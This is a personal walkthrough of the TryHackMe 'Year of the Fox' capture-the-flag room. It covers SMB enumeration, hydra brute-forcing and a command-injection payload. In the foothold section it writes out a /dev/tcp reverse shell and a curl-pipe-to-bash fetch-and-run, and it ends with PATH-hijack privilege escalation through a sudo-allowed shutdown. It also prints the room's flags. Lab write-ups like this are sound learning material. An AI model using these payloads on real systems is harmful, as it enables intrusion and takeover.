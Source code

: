 ```yaml
---
title: "Year of the Fox"
date: 2025-4-01
draft: false
description: TryHackMe's Good Room 
Tags:
- TryHackMe
- Linux
- Hard
---
```



## Enumeration

Lets start with the portscan.
```
PORT    STATE SERVICE      REASON
80/tcp  open  http         syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

Lets enumerate smb.
![](Pasted%20image%2020250331200015.png)
![](Pasted%20image%2020250331200224.png)

But access denied.
![](Pasted%20image%2020250331201147.png)

and we can see the user fox.
`nxc smb 10.10.54.212 --users `
![](Pasted%20image%2020250331201956.png)

So we got the username fox.
Lets try to do password spray.
```bash
nxc smb 10.10.54.212 -u fox -p /usr/share/wordlists/rockyou.txt
```

I tried password spraying but it didn't worked.
![](Pasted%20image%2020250331205743.png)
After sometime,it worked.
![](Pasted%20image%2020250331205821.png)

Hmm so the password is `abcdefg`.
Really? really?.

Okay.
![](Pasted%20image%2020250331210037.png)

Lets see what we got.
![](Pasted%20image%2020250331211300.png)
We can decrypt it.
![](Pasted%20image%2020250331211331.png)

```php
5c8d7f5eaa6208803b7866d9cbf0ea8a30198a2f8f4426cbe5a4267b272e90a8
716be5b5c8943800c7be592cce374a22be2d7376a263b01791f3fb09182ad284
```

Lets see.
I spent lots of time figuring what is it.
I take a small hint.

There is also another user.
We can run `enum4linux`.
`enum4linux -a 10.10.54.212`
![](Pasted%20image%2020250331231419.png)

## Exploit

And we got another user `rascal`.
I tried that user in port 80.
But we also need password.
Lets try to use hydra.
`hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.54.212 http-get /`
And we got the password.
![](Pasted%20image%2020250331231936.png)
`angel17`

Lets login.
![](Pasted%20image%2020250331232122.png)

Hmmm interesting.
![](Pasted%20image%2020250331232549.png)

What can we do here?
Hmmm we might read files,get rce or like that.
Again i was so stuck,I took the help of writeup and the payload for exploit or command injection.
```json
\";pwd \"
```

So it worked.
![](Pasted%20image%2020250331234558.png)

Hmm lets try to get reverse shell.
But somethingis very odd. 
Doing this we got the ping.
![](Pasted%20image%2020250401003842.png)
![](Pasted%20image%2020250401003859.png)

Hmm lets try to get reverse shell.
It was full blind,something working and something not.

## Foothold

Lets first make a script like this which will give us with the rev shell.
```bash
#!/bin/bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now we are gonna open a python3 web sever by this command.
```bash
python3 -m http.server 8000
```

And we are gonna use curl to acess it and use `|` to execute bash.
```bash
curl http://tun0:8000/shell.sh | bash
```

```php
{"target":"\";curl http://ip:8000/shell.sh | bash\n"}
```

Now we should have got our shell in our listenner.
![](Pasted%20image%2020250401004820.png)

Lets get a tty shell and try to escalate our priveleges.
And we can see the web flag.
`THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}`
![](Pasted%20image%2020250401005100.png)

## Privilege Escalation

Lets run linpeas.sh.
Now i have many questions here.
1.What was that smb files meant for?
2.Whats with user fox?
And many more.

Hmm lets continue.
Again i tried many thing but nothing worked and interestingly.
![](Pasted%20image%2020250401005910.png)
We don't even have any permission to su.

Again after trying for several minutes,I took help from writeup and there is a internal ssh port running.
![](Pasted%20image%2020250401005707.png)
Uff.
Okay lets see.
Hmm lets try doing ssh with user `rascal` with that before password.
And everything is denied.
![](Pasted%20image%2020250401010454.png)

Lets forward this port to our machine.
For that,first of all download chisel from [this](https://github.com/jpillora/chisel)

On your local machine.
```bash
chisel server -p 9001 --reverse
```

And this in victims machine.
```bash
./chisel client ip:9001 R:2222:127.0.0.1:22
```

So what it does is, first command listen on port 9001 to get reverse connection from chisel to expose victims port and second command connect to the our listenner and forward port 22 to our host on port 2222.

And now we can do ssh.
![](Pasted%20image%2020250401011625.png)

But password?.
I tried that password of user `rascal` but it wasn't working.
![](Pasted%20image%2020250401011847.png)

Hmm again after trying to find password for few minutes,i found out we need to use hydra.(obviously from writeup).
Lets use that.
I ran this command for a second.
```bash
 hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 2222
```

And we got the password.
![](Pasted%20image%2020250401012255.png)

Lets do ssh as fox.
`elijah`
![](Pasted%20image%2020250401012404.png)

Hmm now we need to became root i guess.
We also got the user flag.
`THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}`
![](Pasted%20image%2020250401012505.png)

Lets escalate our priveleges to root.
Running `sudo -l`,we can see that we can run `/usr/sbin/shutdown` as root.
![](Pasted%20image%2020250401012618.png)

Hmm lets see how we can exploit this.
We don't have any permission to do something.
![](Pasted%20image%2020250401012833.png)

Can we change the path variable?
Lets see.
Lets do this.
```bash
export PATH="/tmp:$PATH"
```
And it worked.
![](Pasted%20image%2020250401013018.png)

So now we can create a fake shutdown in `/tmp`.
I made a shutdown contaning this.
```bash
#!/bin/bash
chmod 4777 /bin/bash
echo "Done."
```

So when we run shutdown,it should run our shutdown instead of real shutdown.
But at first,lets give our shutdown with the executable permisssion.
```bash
chmod 777 /tmp/shutdown
```

But it didn't worked.
Lets see that `shutdown` executable.
![](Pasted%20image%2020250401135733.png)

Hmm its using `poweroff`.
Lets see this executable.

Ohh what if instead of shutdown,we create a poweroff.
Lets just copy `/bin/bash` to `/tmp/poweroff`.
![](Pasted%20image%2020250401140110.png)

Now lets give it good permission and run `shutdown` with sudo.
![](Pasted%20image%2020250401140240.png)

And we became root.
Lets get the flag.
Hmmm.
![](Pasted%20image%2020250401140323.png)

Lets search for root flag.
```bash
find / -type f -name "*root*" 2>/dev/null
```

And we got it.
![](Pasted%20image%2020250401140743.png)

Hmm lets read that.
![](Pasted%20image%2020250401141059.png)

But what is that base64 thing.
It gives us with hash like strings after decoding.
Like what we have got before in `creds.txt` and `cipher.txt`.
Hmmm.

## Done
And done.
![](Pasted%20image%2020250401141140.png)

Again learned lots of things again.
I hope you are doing great.
Take care :).
